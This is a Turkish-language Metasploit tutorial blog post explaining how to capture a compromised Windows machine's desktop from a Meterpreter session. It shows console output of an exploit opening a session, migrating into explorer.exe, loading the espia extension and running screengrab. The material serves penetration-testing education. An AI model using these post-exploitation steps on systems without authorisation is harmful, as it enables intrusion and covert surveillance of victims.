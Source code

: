 ```yaml
---
draft: false

title:  'MSF Ekran Yakalama'
date: '2017-06-05T13:38:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.' 
 
url:  /tr/msf-ekran-yakalama/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ekran Yakalama



Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.



Meterpreter oturum açtığınızda, oturumu `explorer.exe` prosesine taşınmalısınız. Aşağıdaki örnekte öncelikle sistemde çalışan programlar kontrol edilmektedir.



Hedef bilgisayarda meterpreter oturum açtığınızı farz ediyoruz. Öncelikle çalışan işlemlere bakalım. Bunun için `ps` komutunu kullanabilirsiniz.


```bash
**[*********]** Started bind handler
**[*********]** Trying target Windows XP SP2 - English...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:34117 -&gt; 192.168.1.104:4444**)**

meterpreter **&gt;** ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32\notepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    284   surgemail.exe        c:\surgemail\surgemail.exe
    332   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    612   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    620   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    648   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    664   GrooveMonitor.exe    C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
    728   WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    736   jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    756   msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    816   smss.exe             \SystemRoot\System32\smss.exe
    832   alg.exe              C:\WINDOWS\System32\alg.exe
    904   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    928   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    972   services.exe         C:\WINDOWS\system32\services.exe
    984   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1152  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1164  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1276  nwauth.exe           c:\surgemail\nwauth.exe
    1296  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1404  svchost.exe          C:\WINDOWS\System32\svchost.exe
    1500  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1652  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1796  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1912  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    2024  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2188  swatch.exe           c:\surgemail\swatch.exe
    2444  iexplore.exe         C:\Program Files\Internet Explorer\iexplore.exe
    3004  cmd.exe              C:\WINDOWS\system32\cmd.exe
```



Örnek çıktıda görüldüğü gibi `explorer.exe` 260 PID numarasıyla çalışmaktadır. `migrate` komutuyla Meterpreter oturumunu `explorer.exe` içine taşıyalım.


```bash
meterpreter **&gt;** migrate 260
**[*********]** Migrating to 260...
**[*********]** Migration completed successfully.
```



Ardından `espia` eklentisini aktif hale getirelim.


```bash
meterpreter **&gt;** use espia
Loading extension espia...success.
```



`screengrab` komutuyla hedef bilgisayarın Masaüstü görüntüsünü kaydedelim.


```bash
meterpreter **&gt;** screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter **&gt;**
```



Gördüğünüz gibi Masaüstü resmi yerel bilgisayarımıza kaydedildi. Bu işlemi yaparken `explorer.exe` veya benzeri şekilde klasör ve dosyalar üzerinde işlem yapabilen bir programa geçiş yapmanız önemlidir. Aksi takdirde `screengrab` komutu çalışmayabilir.
